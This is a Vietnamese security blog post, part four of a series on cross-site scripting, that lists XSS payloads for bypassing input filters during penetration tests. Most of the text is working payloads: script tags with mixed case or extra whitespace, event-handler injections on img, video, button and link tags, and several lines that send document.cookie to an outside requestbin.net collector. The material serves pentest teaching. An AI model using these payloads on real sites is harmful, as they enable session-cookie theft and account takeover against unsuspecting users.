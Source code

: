 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message

```js
<script>alert(1);</script>
```

### Dùng window location

```js
<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>
```

### Dùng image

```js
<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>
```

## Các payload sử dụng mask
### Case sensitive

```js
<SCRIPT>alert(1);</SCRIPT>
<ScRipT>alert(1);</sCriPt>
```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```js
<script  >alert(1);</script   >
```

* Không dùng thẻ script

```
<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>

<video src=1 onerror=alert(1)>

<audio src=1 onerror=alert(1)>

<img src=1 href=1 onerror="javascript:alert(1)"></img>

<audio src=1 href=1 onerror="javascript:alert(1)"></audio>

<video src=1 href=1 onerror="javascript:alert(1)"></video>

<input onblur=javascript:alert(1) autofocus><input autofocus>

<BODY ONLOAD=alert('XSS')>

<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>

<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>
```

